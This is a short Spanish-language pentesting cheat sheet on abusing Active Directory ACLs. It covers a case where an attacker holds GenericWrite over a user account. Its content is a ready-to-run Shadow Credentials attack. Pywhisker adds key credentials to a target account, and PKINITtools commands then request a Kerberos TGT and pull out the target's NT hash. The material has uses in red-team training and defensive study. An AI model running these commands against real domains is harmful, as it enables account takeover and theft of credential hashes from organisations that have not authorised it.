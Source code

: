 # Abuso ACL 

Tags: #AD #ACL #Linux #Impacket 

## GenericWrite sobre Usuario 

* [PyWhisker](https://github.com/ShutdownRepo/pywhisker/tree/main/pywhisker)
* [Shadow Credentials attack](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)

```bash
# Shadow credentials attack 
❯ pywhisker.py -d "domain" -u "ControlledAccount" -p "password" --target "targetAccount" --action "add" 

Notas:
	1. Crear un directorio en donde se guardará toda la info del comando 
	2. El output muestra la 'password' que se utilizará para obtener un TGT 
	3. Crea un 'cert.pfx' 
```

```bash 
Seguir los siguientes pasos para obtener el hash NT:
❯ git clone https://github.com/dirkjanm/PKINITtools     # Clonar e ingresar 

❯ python3 gettgtpkinit.py -cert-pfx cert.pfx -pfx-pass 'password' domain/User_Target output.ccache   # En el output del comando se muestra la 'key'
	
	# password = Es la obtenida en Pywhisker
	# cert-pfx = Es el obtenido en Pywhisker
	# output.ccache = Nombre de exportación 

❯ python3 getnthash.py -key 123456 -dc-ip IP_DC domain/User_Target    

# Si el comando anterior muestra un error por la variable de entorno 'KRB5CCNAME', hacer lo siguiente: 
❯ KRB5CCNAME=output.ccache python3 getnthash.py -key 123456 -dc-ip IP_DC domain/User_Target   # Obtener el hash NT  
```